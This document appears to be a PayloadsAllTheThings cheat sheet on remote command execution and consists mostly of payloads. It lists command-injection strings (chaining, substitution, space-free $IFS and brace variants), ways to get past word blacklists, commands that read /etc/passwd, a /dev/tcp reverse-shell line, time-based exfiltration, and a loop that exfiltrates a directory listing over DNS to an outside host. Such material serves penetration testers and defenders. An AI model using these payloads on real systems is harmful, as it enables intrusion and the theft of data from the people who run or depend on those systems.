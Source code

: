 # Remote Commands Execution
Remote Commands execution is a security vulnerability that allows an attacker to execute Commandss from a remote server.    
NOTE: Reverse Shell Command are relocated to a [single file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


## Exploits
Normal Commands execution, execute the command and voila :p
```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

Commands execution by chaining commands
```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```

Commands execution inside a command
```powershell
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

Commands execution without space - Linux
```powershell
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

Commands execution without space - Windows
```powershell
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```


Commands execution without spaces, $ or { } - Linux (Bash only)
```powershell
IFS=,;`cat<<<uname,-a`
```

Commands execution with a line return
```powershell
something%0Acat%20/etc/passwd
```

Bypass blacklisted word with single quote
```powershell
w'h'o'am'i
```

Bypass blacklisted word with double quote
```powershell
w"h"o"am"i
```

Bypass blacklisted word with backslash
```powershell
w\ho\am\i 
```

Bypass blacklisted word with $@
```powershell
who$@ami
```

Bypass blacklisted word with variable expansion
```powershell
test=/ehhh/hmtc/pahhh/hmsswd 
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

Bypass zsh/bash/sh blacklist
```powershell
echo $0
-> /usr/bin/zsh
echo whoami|$0
```

## Challenge
Challenge based on the previous tricks, what does the following command do: 
```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```


## Time based data exfiltration
Extracting data : char by char
```powershell
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```


## DNS based data exfiltration
Based on the tool from https://github.com/HoLyVieR/dnsbin also hosted at dnsbin.zhack.ca
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "http://$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```


## Thanks to
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
